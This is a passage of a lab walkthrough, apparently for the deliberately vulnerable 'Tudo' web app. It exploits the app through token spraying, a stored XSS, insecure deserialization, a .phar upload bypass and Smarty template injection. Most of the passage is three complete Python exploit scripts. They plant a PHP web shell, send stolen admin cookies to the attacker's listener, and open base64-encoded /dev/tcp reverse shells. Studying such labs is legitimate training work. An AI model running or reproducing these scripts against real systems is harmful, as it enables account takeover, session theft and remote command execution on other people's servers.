  public $m = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new Log);
?>
```

We generate the malicious data


Just send to the server


And we have RCE!


Now, let's chain everything we did until now to get the reverse shell.

Here it is


serialization_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from Unserialize
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
    s.listen()
    
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Exploit used to generate the serialized data
'''
<?php
class Log {
  public $f = '/var/www/html/0x4rt3mis.php';
  public $m = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new Log);
?>
'''

# Plant the malicious php
def plantPHP(rhost):
    print("[+] Let's send the malicious data !! [+]")
    url = "http://%s:80/admin/import_user.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"userobj": "O:3:\"Log\":2:{s:1:\"f\";s:27:\"/var/www/html/0x4rt3mis.php\";s:1:\"m\";s:34:\"<?php system($_REQUEST[\"cmd\"]); ?>\";}"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Payload Sent, php planted !! [+]")
    
# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/0x4rt3mis.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    # Change token
    changeCookies(rhost,admin_cookie)
    # Plant the malicious php
    plantPHP(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

Ok, now let's get the file upload vulnerability working properly!

# 2º RCE - File Upload

If we remember we have a place to upload file in this server, which is very interesting, because if we bypass the defense mechanism, we can upload a malicious php and execute commands on the server

We found that it filter by the format of the file. The other filters are almost easy to bypass, I found this cheat sheet for bypass upload in github, possibly it's useful

.png)

We found that a extension which is not being blacklisted is the `.phar`, so, if we upload a phar file, it's going to be uploaded by the server

And we will use a function that I already used in other HackTheBox boxes

With magic number hex changed to jpeg.

```py
import os
import requests

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/admin/upload_image.php" %rhost
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'title' : (None," "),
        'image': ('0x4rt3mis.phar', data, "image/gif")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

maliciousUpload(rhost)
```

We just upgrade our script, here it is


file_upload_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from File Upload
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
    s.listen()
    
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the php !! [+]")
    url = "http://%s/admin/upload_image.php" %rhost
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'title' : (None," "),
        'image': ('0x4rt3mis.phar', data, "image/gif")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies, cookies=r.cookies)
    print("[+] Done !!! [+]")

# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/images/0x4rt3mis.phar?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Change token
    changeCookies(rhost,admin_cookie)
    # Upload the malicious php
    maliciousUpload(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    
if __name__ == '__main__':
    main()
```

Now, let's get the last rce way.

# 3º RCE - Update MOTD

The last RCE we can get from this box is trough update the MOTD message on the server

On the admin page we see that we can change the motd from the user


We just see in burp how it works


After a research about tpl files, we found that probably it's being used to templates


It's `Smarty` template engine, now we could test it to see if it's vulnerable


We found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) the exploits


So we test the version of Smarty running on the box

```
{$smarty.version}
```


Ok, it's vulnerable

```
{php}echo+`id`;{/php}
```

And we have RCE


And we have reverse shell

```
{php}echo `bash -c 'bash -i >& /dev/tcp/172.17.0.1/4242 0>&1'`;{/php}
```


Now, again, let's automate it, just adapting our initial exploit

Here it is


motd_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from MOTD Smarty PHP Template
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")

# Send token, to get it valid
def sendToken(rhost,username): 
    print("[+] Send the token for the username: %s ! [+]" %username)
    url = "http://%s:80/forgotpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Sent ! [+]")
    
# Function to mount the php payload to make the spray
def mountPhpSpray(seed1,seed2):
    print("[+] Let's mount the php seed generator ! [+]")
    payload = "<?php\n"
    payload += "function generateToken($value) {\n"
    payload += "    srand(round($value));\n"
    payload += "    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';\n"
    payload += "    $ret = '';\n"
    payload += "    for ($i = 0; $i < 32; $i++) {\n"
    payload += "        $ret .= $chars[rand(0,strlen($chars)-1)];\n"
    payload += "    }\n"
    payload += "    return $ret;\n"
    payload += "}\n"
    payload += "foreach (range(" + str(seed1) + "," + str(seed2) + ") as $value) {\n"
    payload += "    echo generateToken($value);\n"
    payload += "    echo \"\\n\";\n"
    payload += "}\n"
    payload += "?>\n"
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
    s.listen()
    
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Change the MOTD
def changeMotd(rhost,lhost,lport):
    print("[+] Let's change the MOTD ! [+]")
    url = "http://%s:80/admin/update_motd.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"message": "{php}echo `bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'`;{/php}" %(lhost,lport)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Doooone !!! [+]")

# Just get reverse
def getReverse(rhost):
    print("[+] Enjoy the shellll ! [+]")
    url = "http://%s:80/" %rhost
    r.get(url, cookies=r.cookies, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    # Change token
    changeCookies(rhost,admin_cookie)
    # Change MOTD
    changeMotd(rhost,lhost,lport)
    # Trigger reverse
    getReverse(rhost)

if __name__ == '__main__':
    main()
```

Done!!